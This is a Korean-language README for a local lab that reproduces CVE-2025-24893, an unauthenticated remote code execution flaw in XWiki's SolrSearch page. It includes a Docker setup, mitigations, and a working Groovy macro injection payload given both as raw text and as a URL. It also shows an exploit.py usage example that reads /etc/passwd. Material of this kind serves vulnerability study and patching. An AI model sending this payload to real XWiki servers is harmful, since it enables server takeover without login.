


# XWiki SolrSearch Unauthenticated RCE (CVE-2025-24893)

---
### Contributors
- 화이트햇 스쿨 4기 25반 [임두연(@endusdksla)](https://github.com/endusdksla)

## 요약
- XWiki는 위키 문법과 매크로를 서버 측에서 해석해 렌더링한다. 문제는 `Main.SolrSearch` 페이지가 게스트에게 열려 있으면서도, 사용자 입력인 `text` 파라미터를 충분한 검증 없이 XWiki 문법으로 평가한다는 점이다.
- 공격자는 `text`에 `{{groovy}}` 매크로를 삽입해 서버에서 임의의 Groovy 코드를 실행할 수 있고, `"command".execute()`를 통해 운영체제 명령까지 호출할 수 있다. 이 취약점은 별도 로그인이나 토큰 없이 단일 GET 요청만으로 악용 가능하다.

## 환경 구성

이 디렉토리는 공식 XWiki standalone 배포본 `15.10.1`과 Java 17 런타임을 사용해 취약 환경을 구성한다.
| 항목 | 내용 |
|---|---|
| CVE | `CVE-2025-24893` |
| 제품 | XWiki Platform |
| 취약 버전 | `>= 5.3-milestone-2, < 15.10.11` / `>= 16.0.0-rc-1, < 16.4.1` |
| 패치 버전 | `15.10.11`, `16.4.1` |
| 취약점 유형 | Eval Injection -> Unauthenticated RCE |
| 인증 필요 여부 | 불필요 |
| 영향 | 서버 명령 실행 가능 |

## 취약 조건

- XWiki 버전이 패치 이전 버전이어야 한다.
- `Main.SolrSearch` 엔드포인트가 게스트 접근 가능해야 한다.
- 서버가 `text` 파라미터를 XWiki 문법으로 평가할 수 있어야 한다.
- `groovy` 매크로가 실행 가능한 상태여야 한다.

본 환경은 XWiki `15.10.1`을 사용하므로 위 조건을 만족한다.

## 재현 절차

```bash
docker compose up -d --build
```
초기 실행 시 자동 설치가 진행되므로 몇 분 정도 소요될 수 있다.(소요시간은 대략 6~7분)

```bash
docker compose ps
docker inspect -f '{{json .State.Health}}' xwiki-web
```
위 명령어의 결과에서 `"Status":"healthy"` 상태가 되면 환경 구성이 완료되어 exploit 가능한 상태가 된다.

```bash
pip install requests
```
exploit.py 실행 전 의존성을 설치한다.

## PoC 코드

핵심 페이로드는 아래와 같다.

```text
}}}{{async async=false}}{{groovy}}println("id".execute().text){{/groovy}}{{/async}}
```

위 페이로드는 `text` 파라미터에 삽입되어 `Main.SolrSearch` 페이지에서 평가된다. 그 결과 `println("id".execute().text)`가 서버에서 실행되고, 명령 실행 결과가 RSS 응답 본문에 반사된다.

전체 실행 스크립트는 [exploit.py](./exploit.py)를 참고하면 된다.

```bash
python3 exploit.py
```
위 파이썬 코드 실행으로 PoC 재현이 가능하다. 기본 명령어는 id이다.

```bash
python3 exploit.py -c "cat /etc/passwd"
```
다른 명령 실행을 실행하려면 위와 같이 인자를 넘겨주면 된다.

혹은 url로 요청을 보내면 된다.(id를 출력하는 페이로드)
```text
http://localhost:1337/xwiki/bin/get/Main/SolrSearch?media=rss&text=%7D%7D%7D%7B%7Basync+async%3Dfalse%7D%7D%7B%7Bgroovy%7D%7Dprintln%28%22id%22.execute%28%29.text%29%7B%7B%2Fgroovy%7D%7D%7B%7B%2Fasync%7D%7D
```

## 실행 결과


id를 응답으로 보내는 모습


현재 디렉토리 파일 확인

## 대응 방안

- XWiki를 `15.10.11` 이상 또는 `16.4.1` 이상으로 업데이트한다.
- 외부에 노출된 XWiki 인스턴스의 게스트 접근 정책을 점검한다.
- 불필요한 스크립트/매크로 실행 권한을 최소화한다.
- 의심 요청 및 `SolrSearch` 접근 로그를 모니터링한다.

## reference

- NVD: <https://nvd.nist.gov/vuln/detail/CVE-2025-24893>
- GitHub Advisory: <https://github.com/advisories/GHSA-rr6p-3pfg-562j>
